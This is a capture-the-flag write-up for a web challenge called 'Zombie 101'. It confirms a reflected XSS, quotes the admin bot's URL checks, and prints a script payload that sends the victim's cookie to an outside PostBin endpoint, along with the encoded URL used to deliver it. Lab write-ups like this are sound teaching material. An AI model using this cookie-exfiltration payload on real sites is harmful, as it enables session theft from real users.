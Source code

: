 # Zombie 101

### Category: Web
### Points: 100

In the challenge description we are given a link to the following website:

![website](zombie.png)

It's also noted in the description that this challenge is a classic "steal the admin's cookie" challenge.

Given two input boxes for this challenge, I immediately test for a XSS vulnerability
in the first box and unsurprisingly, I get a pop-up with the age-old:
```
<script>alert(0)</script>
```
The second form allows you to pass a URL to the 'admin' bot, and it will visit that page. 
The source code is given to us and we can see the restrictions of the URL we pass in:

```python
const validateRequest = (req) => {
    const url = req.query.url
    if (!url) {
        return 'Hmmm, not seeing a URL. Please try again.'
    }

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        return 'Something is wrong with your url: ' + escape(e.message)
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol !== 'https:') {
        return 'Our admin is picky. Please provide a url with the http or https protocol.'
    }

    if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.`
    }

    return null
}
```

We can craft a simple exploit to steal the admin's cookie and redirect it to our own server:

```javascript
<script>
fetch('https://www.toptal.com/developers/postbin/xxxx-xxxx?cookie='+document.cookie,{headers: {'Accept': ''}})
   .then(response => response.text())
   .then(text => console.log(text))
</script>
```

After injecting this payload into the first input box, we get a URL to give to the zombie page for the admin to check out.

Submitting this URL:

```
# https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https%3A%2F%2Fzombie-101-tlejfksioa-ul.a.run.app%2Fzombie%3Fshow%3D%253Cscript%253Efetch%2528%2527https%253A%252F%252Fwww.toptal.com%252Fdevelopers%252Fpostbin%xxxx-xxxx%253Fcookie%253D%2B%2527%252Bdocument.cookie%252C%257Bheaders%253A%2B%257B%2527Accept%2527%253A%2B%2527%2527%257D%257D%2529%2B.then%2528response%2B%253D%253E%2Bresponse.text%2528%2529%2529%2B.then%2528text%2B%253D%253E%2Bconsole.log%2528text%2529%2529%253C%252Fscript%253E
```

Gives us the flag in the response from PostBin:

cookie: flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}

